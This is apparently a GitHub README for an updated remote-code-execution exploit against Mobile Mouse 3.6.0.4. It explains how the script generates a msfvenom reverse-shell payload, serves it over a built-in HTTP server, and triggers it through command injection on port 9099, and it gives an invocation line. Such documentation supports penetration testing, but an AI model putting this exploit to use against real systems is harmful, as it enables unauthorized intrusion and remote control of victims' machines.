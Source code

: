 # Mobile Mouse 3.6.0.4 RCE Exploit

Exploit by: [Chokri Hammedi](https://www.exploit-db.com/exploits/51010) (08/22)   
Fixed by: [lof1](https://github.com/lof1sec/mobile_mouse_rce/tree/main) (10/23)  
Updated by: x7331 (05/25)  

## Overview
This repository contains an exploit script targeting Mobile Mouse version 3.6.0.4, a remote control software for mobile devices. The exploit allows remote code execution (RCE) by leveraging an unauthenticated command injection vulnerability in the Mobile Mouse server running on port 9099.

## Original Exploit
The original exploit (dated August 9, 2022) works by uploading a crafted executable payload (usually generated manually via msfvenom) to the target machine's temporary directory and then remotely triggering its execution. The payload is served via an external HTTP server manually started by the attacker.

### What This Exploit Does
1. Connects to the Mobile Mouse service on the target IP (port 9099).
2. Sends crafted commands to upload a malicious payload (reverse shell executable) to the remote host.
3. Executes the uploaded payload, resulting in a reverse shell connection back to the attacker.
4. Requires an HTTP server serving the payload executable externally.

## Improvements
The updated script enhances the original exploit with:

1. **Integrated Payload Generation**: The script can now automatically generate the payload executable using msfvenom internally, removing the need to create the payload manually.
2. Uses a **temporary file to store the generated executable**, which is cleaned up after use.
3. **Built-in HTTP Server**: The script launches a background HTTP server to serve the generated (or user-supplied) payload. This removes the manual step of starting a separate HTTP server.

### Flexible Parameters:
Added command-line arguments to specify:

- `--server-port`: Port number for the HTTP server serving the payload (default: 8080).
- `--payload`: Optional argument to provide a custom payload executable path.
- `--lhost` and `--lport`: Local IP and port for reverse shell callback.
- `--target`: Target IP address.

### Improved Usage & Output:
* Clear console output for each major step.
* Cleaner error handling and feedback.
* Proper cleanup of temporary payload files.

### Usage Help & Defaults:
* If no payload is provided, auto-generation is triggered.
* The script prints helpful usage instructions if arguments are missing.

## How to Use

### Prerequisites
1. Python 3 installed.
2. `msfvenom` installed and available in your system path.
3. Network connectivity to the target Mobile Mouse server on port `9099`.

### Basic Usage
```bash
python3 exploit.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```

This will:
1. Automatically generate a reverse shell payload with `msfvenom`.
2. Start a local HTTP server on port 8080 to serve the payload.
3. Upload and execute the payload on the target.

## Disclaimer
This exploit is intended for educational purposes and authorized penetration testing only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.
